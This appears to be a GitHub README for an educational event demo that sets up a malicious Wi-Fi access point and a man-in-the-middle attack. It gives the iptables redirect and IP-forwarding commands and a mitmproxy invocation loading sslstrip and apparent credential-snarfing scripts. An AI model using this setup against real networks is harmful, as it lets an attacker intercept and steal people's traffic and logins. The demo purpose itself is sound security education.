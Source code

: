 Punti Deboli
============
Demo for VenetoNight 2018 involving MITM on several websites to showcase classic network attacker's capabilities

Setup
-----
Laptop is required to be connected using the eth adapter and serve a malicious AP using a compatible wifi card. NetworkManager is enough to setup the AP.

### Low-level netowrk setup

Enable ip forward

	# sysctl -w net.ipv4.ip_forward=1

Disable ICMP redirects

	# sysctl -w net.ipv4.conf.all.send_redirects=0

Apply firewall rules to enable transparent proxy (consider using appropriate names for the network devices)

	# iptables -t nat -I PREROUTING -i wlp2s0 -p tcp --dport 80 -j REDIRECT --to-port 8080
	# iptables -t nat -I PREROUTING -i wlp2s0 -p tcp --dport 443 -j REDIRECT --to-port 8080
	# iptables -t nat -I POSTROUTING -o enx00e04c68a1d8 -j MASQUERADE


### Proxy

Install [mitmproxy](https://mitmproxy.org/)

	$ virtualenv -p /usr/bin/python3 venv
	$ . venv/bin/activate
	(venv) $ pip install mitmproxy

Run it with the provided scripts

	(venv) $ mitmproxy -q --mode transparent -s scripts/flip.py -s scripts/instasnarf.py -s scripts/sslstrip.py
	